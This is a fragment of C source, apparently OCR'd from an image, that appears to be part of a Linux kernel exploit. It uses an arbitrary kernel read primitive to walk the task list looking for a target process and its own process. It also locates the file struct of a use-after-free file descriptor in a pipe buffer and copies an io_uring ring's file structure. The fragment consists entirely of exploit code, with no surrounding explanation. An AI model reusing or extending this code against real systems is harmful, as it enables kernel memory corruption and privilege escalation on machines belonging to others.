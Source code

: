 ```
        current_next = read_8_at(current_next);
        current = current_next - TASKS_NEXT_OFF;

        if (current == g_init_task) { break; }

        // Read the comm
        read_comm_at(current + COMM_OFF, current_comm);
        //printf("    - Address: 0x%lx, Name: '%s'\n", current, current_comm);

        // If we find the target comm, save it
        if (!strcmp(current_comm, TARGET_TASK))
        {
            g_target_task = current;
        }

        // If we find our target comm, save it
        if (!strcmp(current_comm, OUR_TASK))
        {
            g_our_task = current;
        }
    }
}

void find_pipe_buf_addr(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our fd in the array
    files_ptr += (sizeof(uint64_t) * g_uaf_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

    // Calculate the offset
    g_off = curr_file & 0xFFF;

    // Set the globals
    g_file_addr = curr_file;
    g_pipe_buf = g_file_addr - g_off;

    return;
}

void make_ring_copy(void)
{
    // Get the base of the files array
    uint64_t files_ptr = read_8_at(g_file_array);
    
    // Adjust the files_ptr to point to our ring fd in the array
    files_ptr += (sizeof(uint64_t) * g_ring.ring_fd);

    // Get the address of our UAF file struct
    uint64_t curr_file = read_8_at(files_ptr);

    // Copy all the data into the buffer
    for (size_t i = 0; i < 32; i++)
    {
        uint64_t *val_ptr = (uint64_t *)&g_ring_copy[i * 8];
        *val_ptr = read_8_at(curr_file + (i * 8));
    }
}

```